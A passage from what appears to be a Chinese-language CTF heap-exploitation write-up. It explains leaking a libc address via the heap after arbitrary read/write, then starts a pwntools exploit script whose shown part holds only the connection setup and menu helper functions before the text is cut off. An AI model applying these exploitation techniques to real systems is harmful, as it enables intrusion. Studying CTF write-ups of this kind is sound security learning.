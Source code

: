 在任意讀寫之後，另一種找到 libc 的方案其實是可以在進行任意讀寫之前首先造成 libc 地址被寫在堆上，之後任意讀將其讀出來即可。

其中爲找到 libc 所在的偏移，可以直接通過 gdb 調試，查看具體 libc 地址在堆上的位置即可，不用進行刻意計算。

exp 如下：

```
#! /usr/bin/env python2
# -*- coding: utf-8 -*-
# vim:fenc=utf-8

import sys
import os
import os.path
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) > 2:
    DEBUG = 0
    HOST = sys.argv[1]
    PORT = int(sys.argv[2])

    p = remote(HOST, PORT)
else:
    DEBUG = 1
    if len(sys.argv) == 2:
        PATH = sys.argv[1]

    p = process(PATH)

def cmd(choice):
    p.recvuntil('> ')
    p.sendline(str(choice))


def create(book_size, book_name, desc_size, desc):
    cmd(1)
    p.recvuntil(': ')
    p.sendline(str(book_size))
    p.recvuntil(': ')
    if len(book_name) == book_size:
        p.send(book_name)
    else:
        p.sendline(book_name)
    p.recvuntil(': ')
    p.sendline(str(desc_size))
    p.recvuntil(': ')
    if len(desc) == desc_size:
        p.send(desc)
    else:
        p.sendline(desc)


def remove(idx):
    cmd(2)
    p.recvuntil(': ')
    p.sendline(str(idx))


def edit(idx, desc):
    cmd(3)
    p.recvuntil(': ')
    p.sendline(str(idx))
    p.recvuntil(': ')
    p.send(desc)
```